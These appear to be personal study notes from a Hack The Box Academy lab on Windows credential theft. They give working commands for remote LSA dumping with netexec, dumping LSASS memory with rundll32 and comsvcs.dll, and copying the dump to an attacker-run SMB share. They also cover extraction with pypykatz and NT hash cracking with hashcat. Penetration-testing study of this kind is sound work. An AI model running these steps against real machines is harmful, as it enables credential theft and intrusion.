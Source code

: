 # Remote dumping, LSA secrets
- With access to credentials that have **local admin privileges**, can target LSA secrets over the network
	- `netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
		- Authenticate SMB, then dump LSA
- Can do the same for SAM
	- `netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`


# Attacking LSASS
1. Create a dump file, similar to copying contents of SAM
	- Task Manager way (need GUI)
		- Open Task Manager
		- Select the Processes tab
		- Find and right click the Local Security Authority Process
		- Select Create dump file
		- `lsass.DMP` created and saved in `%temp%`. Will transfer this to attack host
	- Rundll32.exe & Comsvcs.dll method
		- Find Lsass's PID 
			- From cmd, `tasklist /svc` and find `lsass.exe`PID
			- Or from powershell, `Get-Process lsass`
		- Create dumpfile with powershell
			- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID from above> C:\lsass.dmp full`
2. Transfer to attack host
	- Can do this with the same SMB method as above, in attacking SAM
	- `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <local directory to host share>
		- run this on our attack host to create the share
	- Then move the file to the share
		- `move lsass.dmp \\<host ip>\<share name`
	- Can also use any method found in [[2. Windows Uploads]]
3. Use Pypykatz to extract credentials (on attack host)
	- Like mimikatz, but can run on Linux, so can use it on the ccopied dump file offline
	- Lsass stores credentials that have **active** logon session on Windows
		- So when we dumped Lsass process memory into file, essentialy took a 'snapshot' of what was in memory at that pt in time
	- `pypykatz lsa minidump </path_to>/lsass.dmp 
	- Results:
		- MSV
			- Authentication package in Windows that LSA calls on to validate logon attempts against the SAM database
		- Wdigest
			- Older authentication protocol
			- Passwords in cleartext
		- Kerberos
			- Passwords, ekeys, tickets, pins
		- Dpapi
			- Dpapi masterkey for logged-on users
				- Can be then used to decrypt secrets associated with each of the applications using Dpapi and result in capturing of credentials for various accounts.
			- More in Windows Privilege Escalation topic
		- NT Hashes
			- Crack with hashcat
				- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`
